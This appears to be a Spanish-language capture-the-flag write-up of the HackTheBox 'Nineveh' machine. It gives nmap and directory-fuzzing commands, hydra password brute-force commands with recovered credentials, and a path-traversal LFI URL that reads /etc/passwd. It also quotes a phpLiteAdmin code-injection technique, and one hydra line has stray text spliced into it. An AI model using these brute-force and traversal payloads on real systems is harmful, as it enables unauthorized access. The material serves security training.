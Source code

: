 # Nineveh-htb

## NMAP 


```

 1100  sudo nmap -sS -T4 -p- --open -Pn -n 10.129.66.164 -oG ports
 1101  extractPorts ports
 1102  sudo nmap -sC -sV -p80,443 10.129.66.164 -oN Scan
 1103  sudo nmap --script "vuln and safe" -p80 10.129.66.164 -oN Scan80
 1104  sudo nmap --script "vuln and safe" -p443 10.129.66.164 -oN Scan80

```

## Dirbuster

Recuerda cuando tienes http y https se tiene que checar ambas.... son paginas separadas.

```
dirbuster -u https://nineveh.htb/ -t 200 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

## FFUF



```
ffuf -c -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://nineveh.htb/FUZZ 
ffuf -c -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://nineveh.htb/FUZZ 
```

## WFUZZ 

```
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://nineveh.htb/FUZZ

```

Encontramos varios directorios.

```
https

File found: /index.html - 200
Dir found: /icons/ - 403
Dir found: /db/ - 200
File found: /db/index.php - 200
Dir found: /icons/small/ - 403
File found: /icons/README.html - 200


http

/department
```

## Metadata

Siempre es buena idea en estas maquinas y en los CTF checar los metadatos ( y cubrir todas las posibilidades)

```
exiftool ninevehForAll.png
strings ninve.png -n 10
steghide info nineveh.png
```

## HTTPS

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/c652fdd8-8f61-4569-b626-ee382b8a2307)


Podemos usar la opcion de -I de curl para que nos diga las cabeceras sin embargo si se trabaja con https necesitamos la opcion -k

```
curl -I https://nineveh.htb/ -k

```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/0e7eb60f-fc11-4a9d-a50d-86133efa15a0)

## RCE

Con el firefox podemos sacar como se realiza un peticion post.

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/2f27a521-faab-41ed-843f-c1b4065e2ae8)

Ya que me parece que en el OSCP no se puede usar Burp Suite.

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/8c38e396-dec4-4eda-8b86-5b9ac07fe94e)

### Hydra 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.49.194  http-post-form "/department/login.php:username=a│    * FUZZ: YWRtaW46dGVzdAo=
dmin&password=^PASS^:Invalid" 
```
Si te das cuenta lo que cambia es el https en hydra mira  https-post-form.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.49.194  https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"

```


Sacamos algunos passwords para admin y el otro para phpLiteAdmin v1.9

```
php
 login: admin   password: password123

db
login: admin   password: 1q2w3e4r5t

```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/9d363814-3c40-4561-b111-2228c97af192)


### LFI

Ahi se ve que se podria aprobechar de que carga archivos solo hay que ver como. Una vez dentro podriamos y segun lo que se investigo crear una base de datos y pues hacer algo similar al posion log.

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

>https://github.com/chacka0101/exploits/blob/master/24044.txt

Para poder usar el LFI se usa apartir del punto.

```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes../../../../../../../etc/passwd
```

Rutas para LFI interesates enumerar via LFI:

```
/proc/net/tcp # Para listar puertos abiertos
cat ports.txt| awk -F":" '{print $3}' | awk '{print $1}' > ports2

hex_numeros = ["0050", "0016", "01BB", "0050", "0050"]

dec_numeros = [int(hex_num, 16) for hex_num in hex_numeros]

print(dec_numeros)

```

![image](https://github.com/gecr07/Nineveh-htb/assets/63270579/bea2648a-70d7-4a54-8b54-37e568c4fdc0)

Ver la version del sistama operativo

```
/etc/os-release

Ver las interfaces

/proc/net/fib_trie

```

Puedes ver procesos que existen en la maquina con 

```
/proc/sched_debug

```








